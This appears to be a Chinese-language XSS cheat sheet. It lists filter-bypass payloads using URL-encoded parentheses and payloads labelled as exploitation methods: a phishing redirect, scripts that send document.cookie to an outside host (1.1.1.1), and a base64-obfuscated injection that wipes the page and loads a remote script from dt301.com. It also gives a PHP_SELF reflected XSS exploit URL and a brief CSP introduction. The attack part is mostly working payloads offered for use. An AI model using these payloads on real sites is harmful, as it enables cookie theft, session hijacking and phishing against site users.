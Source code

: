  

**url加密绕圆括号**

```
<svg/onload=alert(1)>
<svg onload='JavascRipT:alert%281%29'>
<svg/onload ="location='jav'+'ascript'+':%2'+'0aler'+'t%20%2'+'81%'+'29'">
```

 

 **XSS漏洞利用方式：**



```
<script>window.location="http://www.baidu.com"</script>   重定向钓鱼
<script>window.location="http://1.1.1.1/cookie.php?cookie="+document.cookie;</script>  接受客户端cookie
<script>new Image().src="http://1.1.1.1/c.php?output="+document.cookie; </script> http://login.xxx.com/sso/m/mobile-login.do?next_page=http://m.xxx.com&f=coursek12xss",}});setTimeout(atob('ZG9jdW1lbnQuYm9keS5pbm5lckhUTUwgPSAnJztkb2N1bWVudC5oZWFkLmFwcGVuZENoaWxkKGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ3NjcmlwdCcpKS5zcmM9Jy8vZHQzMDEuY29tLzAuanMnOw=='),0);({validate: {//
```

## 利用php语言特性

### php

$_SERVER['PHP_SELF']

其中PHP_SELF可以换为:SCRIPT_URI,QUERY_STRING,PATH_INFO等

例子:

```php
<form method="POST" action="<?php echo $_SERVER('PHP_SELF')?>">
</form>
```



exp:

`http://127.0.0.1/1.php/%22%3e%3cscript%3ealert('xss')%3c/script%3e%3cfoo`





## csp

Content Security Policy （CSP）内容安全策略，是一个附加的安全层，有助于检测并缓解某些类型的攻击，包括跨站脚本（XSS）和数据注入攻击。

CSP的特点就是他是在浏览器层面做的防护，是和同源策略同一级别，除非浏览器本身出现漏洞，否则不可能从机制上绕过。

CSP只允许被认可的JS块、JS文件、CSS等解析，只允许向指定的域发起请求。

### 语法

https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP
